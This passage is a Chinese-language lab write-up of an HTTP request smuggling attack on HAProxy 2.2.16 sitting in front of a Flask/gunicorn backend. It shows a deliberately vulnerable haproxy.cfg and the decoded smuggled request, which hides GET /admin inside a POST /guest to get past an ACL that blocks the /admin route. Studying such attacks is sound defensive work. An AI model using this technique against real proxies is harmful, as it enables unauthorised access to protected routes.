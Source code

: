 两个路由，一个guest，一个admin，然后通过gunicorn启动

```shell
gunicorn --keep-alive 10 -k gevent --bind 0.0.0.0:5000 -w 20 main:app
```

接着构造前端服务器，也就是漏洞环境HAProxy2.2.16

其配置文件为haproxy.cfg

```nginx
global
    daemon
defaults  
    mode    http
    timeout  client  50000
    timeout  server  50000
    timeout  connect 50000
frontend web 
    bind *:8000  
    http-request deny if { path_beg /admin }
    default_backend websrvs
backend websrvs 
    http-reuse always
    server srv1 flask:5000
```

注意这里使用了`http-request deny if { path_beg /admin }`，来对admin路由访问的安全限制，我们构建走私攻击就是为了突破这个安全限制，这里需要注意需要配置`http-reuse always`连接重用，这也是走私攻击能够成功的关键。

环境启动，接着我们测试ACL限制`/admin`

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-335ddd1cffa4faaed75754757eddb75ec1b96e5e.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-335ddd1cffa4faaed75754757eddb75ec1b96e5e.png)

接着我们构造走私请求

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b5c7ba390077e9f670f6ee428b4160fd545d4aaf.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b5c7ba390077e9f670f6ee428b4160fd545d4aaf.png)

我们可以看到直接通过走私获取了被HAProxy限制的`/admin`的内容。

这里需要解释下，23是一body中到`:`的长度，使用`h:GET`的方式是通过请求头的方式将第二个请求嵌在其中。此时对于HAProxy来说，是两个请求，第一个到`h:`，第二个是之后的内容。然而第一个请求在解析后变为了

```http
POST /guest HTTP/1.1
host: tt.donky.cn:10001
content-length: 0

GET /admin HTTP/1.1
h:
```

对于HAProxy来说，这是一个请求解析出来的，并且请求的是`/guest`，自然不会触发ACL限制，但对于后端来说，会解析成两个请求，第二个就是走私请求访问`/admin`，所以后端会返回两个回应，但是HAProxy来说只是发了一个请求，来两个回应，所以会直接把第二个响应，当成下一个请求的响应，对于此请求来说，就是`h:`后面请求的响应，所以会直接把`/Admin`的内容返回出来。
